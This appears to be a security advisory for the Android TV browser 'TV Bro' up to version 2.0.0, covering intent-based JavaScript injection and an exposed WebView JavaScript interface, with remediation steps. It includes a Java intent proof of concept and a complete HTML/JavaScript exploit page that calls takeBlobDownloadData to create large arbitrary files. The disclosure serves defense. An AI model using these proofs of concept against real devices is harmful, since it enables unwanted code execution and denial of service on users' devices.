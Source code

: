 
---

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: JavaScript Code Injection via Intent Handlers

---

#### **Summary**:
The `com.phlox.tvwebbrowser` application improperly handles external intents, potentially leading to Arbitrary Code Execution (ACE) via crafted URIs.

#### **Severity**:
🔴 High

#### **Details**:
The exposed `com.phlox.tvwebbrowser.activity.main.MainActivity` allows external applications to execute arbitrary JavaScript within its context. Specifically, a malicious app can invoke this activity with a specially crafted URI that contains JavaScript, leading to unwanted code execution.

##### Proof of Concept:

![poc](https://github.com/actuator/com.phlox.tvwebbrowser/assets/78701239/581c4577-3ee5-4277-8fe9-2109921a18ec)



```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("http://ampulicidae.com"));
startActivity(intent);
```

#### **Common Weakness Enumeration (CWE)**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')

#### **Remediation Steps**:
1. **Restrict External Intent Handling**: In `AndroidManifest.xml`, ensure the `exported` attribute for the affected activity is set to `false`.
2. **URI Sanitization**: Implement a strict validation and sanitation mechanism for URIs before processing.


#### Addendum
---

The com.phlox.tvwebbrowser application exposes a JavaScript interface, namely TVBro, to its WebView component. This interface provides powerful methods that can be invoked by any web page loaded into the WebView. Such unrestricted access can lead to a variety of security risks, such as arbitrary file downloads, resource exhaustion, and potentially other undisclosed impacts.

#### Impact:

#### Resource Exhaustion:
An attacker can generate an extremely large file using the takeBlobDownloadData method which could lead to resource exhaustion and potential denial-of-service scenarios.

#### Arbitrary File Creation: 
The method allows for the creation of files with arbitrary content on the user's device without user consent.
Potential for other Exploits: Without a detailed assessment of all methods within the TVBro interface.

#### Proof of Concept:
Below is a sample payload that exploits the vulnerability by attempting to create an extremely large file:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>TV Bro Exploit Demo</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            padding: 20px;
        }

        button {
            background-color: red;
            color: white;
            padding: 10px 20px;
            border: none;
            cursor: pointer;
        }

        #warning {
            color: red;
            font-weight: bold;
        }
    </style>
</head>

<body>

    <h1 id="warning">WARNING: Exploit Demonstration</h1>
    <p>This page demonstrates the potential risks associated with the JavaScript interface vulnerability found in the "TV Bro" application.</p>

    <h2>Exploit Details</h2>
    <p>An attacker can generate an extremely large file which can lead to resource exhaustion and potential denial-of-service scenarios on the user's device.</p>

    <button onclick="triggerExploit()">Trigger Exploit</button>

    <div id="status"></div>

    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }

        function triggerExploit() {
            const size = 500000; // You can adjust this as necessary
            const base64Data = generateRandomBase64String(size);
            const fileName = 'exploit.txt';
            const url = 'https://example.com/exploit'; // Replace with an appropriate URL or keep as dummy
            const mimeType = 'text/plain';

            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "About to invoke the interface...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
                document.getElementById('status').innerText = "Invoked the interface. Waiting for a response...";
            } else {
                document.getElementById('status').innerText = "Interface not found. Are you sure you're inside the vulnerable version of TV Bro?";
            }
        }
    </script>

</body>

</html>

```html
